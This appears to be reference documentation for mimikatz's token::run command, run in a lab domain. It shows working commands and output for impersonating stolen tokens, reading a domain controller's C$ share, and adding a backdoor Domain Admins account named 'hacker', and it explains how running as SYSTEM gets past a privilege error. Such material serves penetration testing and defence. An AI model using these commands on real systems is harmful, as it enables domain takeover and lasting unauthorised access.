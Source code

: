 # run

`token::run` executes a process with its token.

It has the following command line argument:

* `/id`: Token id to use for the new process
* `/user`: Execute the process with the tokens of this user (instead of specifying the token ID)..
* `/process`: The process to run. By default, the command `whoami` is executed.

## Use Primary Token in new Process

List tokens of user to impersonate:

```
mimikatz # token::list /user:ffast
Token Id  : 0
User name : ffast
SID name  :
 
5332    {0;000563b2} 2 F 457263         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Primary
4432    {0;000563b2} 2 F 2839551        winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Primary
668     {0;00050574} 0 D 329079         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (12g,24p)       Impersonation (Impersonation)
668     {0;000563e4} 2 L 353269         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,02p)       Impersonation (Impersonation)
800     {0;000563e4} 2 L 456098         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,02p)       Impersonation (Impersonation)
920     {0;000563e4} 2 L 380750         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,02p)       Impersonation (Impersonation)
920     {0;000563e4} 2 L 387116         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,01p)       Impersonation (Identification)
920     {0;000563e4} 2 L 436160         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,02p)       Impersonation (Impersonation)
[...]
```

Run a command using a specified token by it's token ID. By default, the command `whoami` is executed:

```
mimikatz # token::run /id:457263
Token Id  : 457263
User name :
SID name  :

676     {0;000f0ac5} 3 F 457263         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Primary
winattacklab\ffast
```

Access DC system drive:

```
mimikatz # token::run /id:1075487 /process:"cmd.exe /c dir \\dc1\c$"
Token Id  : 1075487
User name :
SID name  :

7156    {0;000f0ac5} 3 F 1075487        winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)
Primary
 Volume in drive \\dc1\c$ is Windows
 Volume Serial Number is 6A6C-0DE3

 Directory of \\dc1\c$

05/31/2023  06:30 AM    <DIR>          AzureData
05/31/2023  07:09 AM    <DIR>          ddns_server
05/31/2023  07:04 AM    <DIR>          inetpub
05/31/2023  06:46 AM    <DIR>          Packages
05/05/2023  11:31 AM    <DIR>          PerfLogs
05/31/2023  07:04 AM    <DIR>          Program Files
05/05/2023  12:26 PM    <DIR>          Program Files (x86)
05/31/2023  07:10 AM    <DIR>          terraform
05/31/2023  07:06 AM    <DIR>          Users
05/31/2023  07:05 AM    <DIR>          Windows
05/31/2023  06:33 AM    <DIR>          WindowsAzure
05/31/2023  07:07 AM    <DIR>          WSUS
               0 File(s)              0 bytes
              12 Dir(s)  15,918,473,216 bytes free
```

Add backdoor user:

```
mimikatz # token::run /id:1075487 /process:"cmd.exe /c net user hacker Password.123 /add /domain && net group \"Domain Admins\" hacker /add /domain && net user hacker /domain"
Token Id  : 1075487
User name :
SID name  :

7156    {0;000f0ac5} 3 F 1075487        winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Primary
The request will be processed at a domain controller for domain winattacklab.local.

The command completed successfully.

The request will be processed at a domain controller for domain winattacklab.local.

The command completed successfully.

The request will be processed at a domain controller for domain winattacklab.local.

User name                    hacker
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/20/2023 3:59:27 PM
Password expires             Never
Password changeable          6/20/2023 3:59:27 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Admins        *Domain Users
The command completed successfully.
```

## Demystifying the `kull_m_process_run_data` Error

Even as a local administrator, you can get the `kull_m_process_run_data` error:

```
mimikatz # token::run /id:1075487 /process:whoami.exe
Token Id  : 1075487
User name :
SID name  :

7156    {0;000f0ac5} 3 F 1075487        child\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Primary
ERROR kull_m_process_run_data ; CreateProcessAsUser (0x00000522)
```

- The error message says that the `CreateProcessAsUser` function could not be executed.

The `token::run` command uses the function `CreateProceasAsUser` to create a
new process in the security context of the specified token and requires the
following privileges (source: [CreateProcessAsUserA function (processthreadsapi.h)](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera)):

- `SeIncreaseQuotaPrivilege` privilege
- `SeAssignPrimaryTokenPrivilege` privilege (if the token is not assignable)

A local admin has the permission to get the `SeIncreaseQuotaPrivilege` privilege but not the `SeAssignPrimaryTokenPrivilege` privilege:

```
mimikatz # privilege::name SeIncreaseQuotaPrivilege
Privilege '5' OK

mimikatz # privilege::name SeAssignPrimaryTokenPrivilege
ERROR kuhl_m_privilege_simple ; RtlAdjustPrivilege (3) c0000061
```

If you start mimikatz as `SYSTEM`, these privileges can be acquired:

```
mimikatz # privilege::name SeIncreaseQuotaPrivilege
Privilege '5' OK

mimikatz # privilege::name SeAssignPrimaryTokenPrivilege
Privilege '3' OK
```

Then, it's possible to use the `token::run` command and use stolen tokens as primary tokens.
